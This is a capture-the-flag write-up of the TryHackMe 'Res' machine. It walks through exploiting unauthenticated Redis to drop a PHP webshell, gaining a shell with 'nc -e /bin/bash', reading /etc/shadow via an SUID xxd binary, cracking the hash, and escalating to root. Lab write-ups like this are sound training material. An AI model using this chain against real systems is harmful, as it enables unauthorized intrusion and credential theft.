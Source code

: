 # Res - Tryhackme Writeup

Res is a vulnerable machine on TryHackMe. Though this machine, I was introduced to Redis (Remote Dictionary Server). It is the most popular key:value store for use as database, cache or queue. Redis is totally insecure to let it be exposed over network. Redis does not have access control implementation and also it does not support encryption.

# Walkthourgh  - Table of Contents

- [Reconnaissance](#Reconnaissance)
- [Vulnerability Identification](#Vulnerability-Identification)
- [Exploitation](#Exploitation)
- [Post-Exploitation](#Post-Exploitation)

*P.S. In my walkthrough, I have two different IP's for Res vulnerable machine. When I was working through this activity, the time on the vulnerable machine expired and I had to restart it. Hence two IPs (10.10.131.41 and 10.10.47.158).*

## Reconnaissance

Nmap scan to find out the open ports and services

```nmap -sV  -sC -p- 10.10.131.41```

![nmap scan](/images/nmap_scan.png)

From the results we see that we have an Apache web server running on port 80 and Redis 6.0.7  on port 6379.

## Vulnerability Identification

1. Port 80 running Apache web server

Visiting the web application on http://10.10.131.41:80, displayed a standard Apache landing page. Nothing was revealed by examining the source code

![Web Application on Port 80](images/web_application .png)

Next I ran a directory scan using Dirbuster to look for any hidden directories or files. but no hidden directories was found.

![web directory enumeration screenshot](/images/dirbuster.png)

Moving on to next open port 6379 and enumerating the Redis service.

2. Port 6379 running Redis 6.0.7

After researching on Redis, I found out following issues that could be exploited.
* By default Redis can be accessed without credentials
* Using Redis we could write a webshell, if we know the directory path of the web application.

## Exploitation

To access Redis on 10.10.131.41, I installed redis-tools on my kali machine

```sudo apt-get install redis-tools```

![redis_tools installation screenshot](/images/redis_tools.png)

I try to connect to a Redis server without a password and I was successfully connected to Redis server.

![redis connect screenshot](/images/connect_redis.png)

Running the “INFO” command listed out the redis version, operating system, architecture, and more.

![redis info screenshot](/images/info_redis.png)


Writing a php script and saving it to the web directory

![Webshell screenshot](/images/webshell.png)

Shell writing is complete, executing it on the target machine

![Webshell execution screenshot](/images/webshell_execution.png)

Make a netcat connection to the attacker IP

```10.10.131.41/shell.php?c=nc -e /bin/bash -lnvp 8888```

![access screenshot](/images/user.png)

## Post-Exploitation

### Privilage Escalation

SUID bit is set for xxd

![suid screenshot](/images/xxd_0.png)

Referencing [GTFOBins](https://gtfobins.github.io/gtfobins/xxd/), I learnt that xxd may be used to do privileged reads or disclose files outside a restricted file system. Using this capabilities, I gained read access of /etc/shadow file.

![xxd screenshot](/images/xxd.png)


Local user password hash from /etc/shadow file was found

![password hash screenshot](/images/shadow.png)

Using john the ripper, I cracked the local user password. 

![password cracked screenshot](/images/john.png)

Once I logon as the user. I found that the user has full sudo privileges. Using this privilage, I was able to switch user as root and gain root access

Root access
![sudo screenshot](/images/root_access.png)







